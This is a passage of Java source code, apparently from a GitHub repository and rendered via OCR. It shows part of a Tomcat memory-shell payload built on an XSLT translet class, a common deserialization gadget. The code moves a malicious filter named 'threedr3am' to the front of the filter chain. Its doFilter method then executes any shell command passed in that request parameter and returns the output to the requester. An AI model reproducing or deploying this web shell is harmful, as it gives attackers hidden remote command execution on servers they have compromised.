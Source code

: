 ```java
                            for (int i = 0; i < filterMaps.length; i++) {
                                if (filterMaps[i].getFilterName().equalsIgnoreCase("threedr3am")) {
                                    org.apache.tomcat.util.descriptor.web.FilterMap filterMap = filterMaps[i];
                                    filterMaps[i] = filterMaps[0];
                                    filterMaps[0] = filterMap;
                                    break;
                                }
                            }
                        }
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
        throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
        FilterChain filterChain) throws IOException, ServletException {
        System.out.println(
            "TomcatShellInject doFilter.....................................................................");
        String cmd;
        if ((cmd = servletRequest.getParameter("threedr3am")) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```